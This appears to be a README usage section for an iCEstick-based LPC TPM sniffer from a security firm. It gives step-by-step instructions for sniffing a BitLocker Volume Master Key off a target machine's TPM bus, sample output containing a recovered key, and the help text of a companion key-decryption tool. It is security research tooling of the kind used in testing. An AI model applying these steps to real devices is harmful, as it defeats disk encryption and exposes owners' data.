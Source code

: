 ## Usage

The iCEstick LPC TPM Sniffer is used via the Python command tool **iCE LPC TPM Sniffer**.
```
python lpc-tpm-sniffer.py
```
In order to extract the current BitLocker Volume Master Key (VMK) of a BitLocker-encrypted partition, the following steps are required:

1. Turn off the target system
2. Connect the iCEstick with the TPM of the target system
3. Start the Python command tool **iCEstick LPC TPM Sniffer** on the attacker system
4. Turn on the target system

The following output exemplarily shows a successful sniffing attack.
```
$ python lpc-tpm-sniffer.py
 
██╗ ██████╗███████╗    ██╗     ██████╗  ██████╗    ████████╗██████╗ ███╗   ███╗    ███████╗███╗   ██╗██╗███████╗███████╗███████╗██████╗
██║██╔════╝██╔════╝    ██║     ██╔══██╗██╔════╝    ╚══██╔══╝██╔══██╗████╗ ████║    ██╔════╝████╗  ██║██║██╔════╝██╔════╝██╔════╝██╔══██╗
██║██║     █████╗      ██║     ██████╔╝██║            ██║   ██████╔╝██╔████╔██║    ███████╗██╔██╗ ██║██║█████╗  █████╗  █████╗  ██████╔╝
██║██║     ██╔══╝      ██║     ██╔═══╝ ██║            ██║   ██╔═══╝ ██║╚██╔╝██║    ╚════██║██║╚██╗██║██║██╔══╝  ██╔══╝  ██╔══╝  ██╔══██╗
██║╚██████╗███████╗    ███████╗██║     ╚██████╗       ██║   ██║     ██║ ╚═╝ ██║    ███████║██║ ╚████║██║██║     ██║     ███████╗██║  ██║
╚═╝ ╚═════╝╚══════╝    ╚══════╝╚═╝      ╚═════╝       ╚═╝   ╚═╝     ╚═╝     ╚═╝    ╚══════╝╚═╝  ╚═══╝╚═╝╚═╝     ╚═╝     ╚══════╝╚═╝  ╚═╝
iCE LPC TPM Sniffer v0.2 by Matthias Deeg - SySS GmbH
Extract BitLocker Volume Master Keys using an iCEstick or iCEBreaker LPC TPM Sniffer
---
[*] Start sniffing
[*] Received 2556 bytes
[+] Found BitLocker VMK: 784f31369defc6b8d2baa354b6119f0777395962feb29b40efcf3078b48189ba
[+] Created VMK file 'vmk.bin' for use with BitLocker FVEK Decrypt
```

Encrypted BitLocker Full Volume Encryption Keys (FVEK) can be decrypted using the Python tool **BitLocker FVEK Decrypt**.
```
$ python bitlocker_fvek_decrypt.py --help
 
  ___ _ _   _            _             _____   _____ _  __  ___                       _  
 | _ |_) |_| |   ___  __| |_____ _ _  | __\ \ / / __| |/ / |   \ ___ __ _ _ _  _ _ __| |_
 | _ \ |  _| |__/ _ \/ _| / / -_) '_| | _| \ V /| _|| ' <  | |) / -_) _| '_| || | '_ \  _|
 |___/_|\__|____\___/\__|_\_\___|_|   |_|   \_/ |___|_|\_\ |___/\___\__|_|  \_, | .__/\__|
                                                                            |__/|_|      
BitLocker FVEK Decrypt v0.2 by Matthias Deeg - SySS GmbH
Decrypts encrypted BitLocker Full Volume Encryption Keys (FVEK)
---
usage: ./bitlocker_key_decryptor.py [-h] -f FILENAME -k KEY
 
optional arguments:
  -h, --help            show this help message and exit
  -f FILENAME, --filename FILENAME
                        File with dislocker-metadata output of targeted BitLocker-encrypted partition
  -k KEYFILE, --keyfile KEYFILE
                        File with sniffed BitLocker Volume Master Key (VMK)
```
